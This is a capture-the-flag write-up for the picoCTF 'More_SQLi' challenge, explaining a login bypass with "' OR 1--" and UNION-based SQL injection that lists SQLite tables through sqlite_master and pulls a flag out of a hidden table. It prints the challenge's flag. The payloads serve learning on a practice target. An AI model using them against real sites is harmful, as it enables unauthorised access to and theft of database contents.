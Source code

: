 # More_SQLi

## Method

Upon opening the website we are greeted with a login page. Trying username 1 and password 1. We are then shown this.

```
username: 1
password: 1
SQL query: SELECT id FROM users WHERE password = '1' AND username = '1'
```

The command at the end is trying to access an sql database
The command can be understood by breaking into parts.
SELECT id – Retrieves the id field for matching records in the users table.
FROM users – Specifies the table, users, from which to retrieve data.
WHERE password = '1' AND username = '1' – Checks if there is a record with both password set to '1' and username set to '1'

Now basically we need to SQl inject something or quite literally write SQL logic that will let us in as it will work in our favor.

So we can just give a test username such as hadakoi ( my ctf username ) then pass a password that will bypass the requirements...

We can pass ' OR 1 in the password section to allow us through.

': This closes the password field in the SQL query.
OR 1: This adds a condition that always evaluates to TRUE (because 1 is always TRUE in SQL).
--: This tells SQL to ignore the rest of the query (the part that would normally check if the password is correct).

This works as the password is already authenticated as true hence allowing us into the next page. This essentially bypasses the real password.
to look at it closer the OR 1 basically will always return true due to the condition statement hence making the password seem genuine.

SELECT id FROM users WHERE username = 'hadakoi' AND password = '' OR 1--'
essentially what our command looks like when passing the values.

---

Our next page looks like an sql database with a query system.

When i entered the name Algiers it shows me the info for the office in Algiers which is 

Algiers - Birger Jarlsgatan 7, 4 tr -	+246 8-616 99 40

Essentially typing the name of a city in the query bar does an sql command.

This will most likely be

```
SELECT city, address, phone FROM cities WHERE city = 'citynameentered';
```

SELECT city, address, phone: This part specifies which columns to retrieve from the table (city, address, and phone).
FROM cities: Specifies the table to retrieve the data from, in this case, cities
WHERE city = 'citynameentered'

Adding ' UNION SELECT 1, 2, 3-- is a common sql injection at the end of our input.

UNION: This keyword combines the results of two or more SELECT statements. 
For a UNION to work correctly, both SELECT statements must return the same number of columns with compatible data types.

Select 1, 2, 3: adds columns 1, 2, 3 we have used 3 columns as we are returning 3 columns like in the previous question.

Say for example entering **Algiers' UNION SELECT 1,2,3--**
we use a ' after the cityname to close the input field so we can start our SQL query
what this looks like -> 

```
SELECT city, address, phone FROM cities WHERE city = 'Algiers' UNION SELECT 1,2,3--
```

And hence we can see that it has added a new row :D 

City	Address	Phone
1	2	3
Algiers	Birger Jarlsgatan 7, 4 tr	+246 8-616 99 40

after knowing our basic injection works we want to find out what other columns are present in this SQL as it could relay more hints for this.
I used the hint talking about SQLiLite so searching up SQLiLite show tables 

https://stackoverflow.com/questions/82875/how-can-i-list-the-tables-in-a-sqlite-database-file-that-was-opened-with-attach

Only "SELECT name FROM sqlite_master WHERE type='table'" works for me
this command caught my eye 

so remaking our command to 

**'UNION SELECT name,1,2 FROM sqlite_master WHERE type='table'--**


this selects from the name column then injects 1,2 
name Column: The name column in sqlite_master contains the names of all tables, indexes, and views.

sqlite_master Table: In SQLite databases, sqlite_master is a special table that stores metadata about the database structure.

the last one type='table' essentially filters for the table names in the database.

This essentially does.
```
SELECT city, address, phone FROM cities WHERE city = '' UNION SELECT name, 1,2 FROM sqlite_master WHERE type='table'--
```

This returns us something intresting 

City	Address	Phone
hints	1	2
more_table	1	2
offices	1	2
users	1	2

from this we can tell our SELECT name, 1, 2 is forcibly hiding the stuff :'( so we need to reformat our command to be able to see the column items as well 

After further research SQL refers to a sql column that holds the SQL statements used to create objects (tables, views, etc.) in the database.
so we can use 'UNION SELECT name,SQL,SQL FROM sqlite_master WHERE type='table'--

from this we can then see 

CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)
CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)
CREATE TABLE offices (id INTEGER NOT NULL PRIMARY KEY, city TEXT, address TEXT, phone TEXT)
CREATE TABLE users (name TEXT NOT NULL PRIMARY KEY, password TEXT, id INTEGER)

<img width="491" alt="image" src="https://github.com/user-attachments/assets/60f5db04-9c2a-4c9c-84c3-67e7e90f153a">

Now that we know a hints table exists and what is being used to create it we can use an injection statement to find what is running it.

CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)

so we can see there are 2 attributes namely id, info.

**' UNION SELECT id,info,2 from hints--**

we end up seeing this 

![image](https://github.com/user-attachments/assets/217a1f1d-6a58-436b-88f5-c8cc4dfac1f3)

from here i can assume we have to directly select it from the more_table as it has an attribute called flag i cant believe I missed this :cry:

we now make our command 

**' UNION SELECT id,flag,2 from more_table--**

We can then see our flag :D finally bru

## Flag

> picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}
